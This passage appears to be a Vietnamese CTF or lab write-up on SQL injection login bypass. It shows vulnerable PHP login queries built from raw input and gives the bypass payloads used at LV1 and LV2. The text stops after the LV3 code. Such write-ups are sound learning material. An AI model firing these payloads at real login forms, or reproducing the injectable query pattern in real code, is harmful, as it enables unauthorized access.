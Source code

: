 ```bash
select * from news;
select * from users;
```
![image](https://github.com/user-attachments/assets/efafadf4-53cc-4a06-a857-a3147240b04e)


![image](https://github.com/user-attachments/assets/defc8e9a-2f4c-4aa8-b333-30003824b5cf)

![image](https://github.com/user-attachments/assets/ed5863d6-0220-46cd-838c-602d2b6a1596)

## Basic
### LV1:
- LV này thì mình ko đọc source mình sql đại:)))
```bash
admin' or '1'='1
```

![image](https://github.com/user-attachments/assets/d77d3526-f848-488f-8f3e-1a3844410a1f)

### LV2:
- Do có đọc source nên mình được sytax của truy vấn.

```php
{
	try {
		include("db.php");
		$database = make_connection("plaintext_db");

		$sql = "SELECT username FROM users WHERE username=\"$username\" AND password=\"$password\"";
		$query = $database->query($sql);
		$row = $query->fetch_assoc(); // Get the first row
```

- Do đó mình truy vấn như sau:
```bash 
admin" or "1"="1 -- 
```

![image](https://github.com/user-attachments/assets/006199f0-ec5d-4a01-881f-25e3a42a1b38)

### LV3
```php
{
	try {
		include("db.php");
		$database = make_connection("hashed_db");

		$sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
		$query = $database->query($sql);
		$row = $query->fetch_assoc(); // Get the first row
```
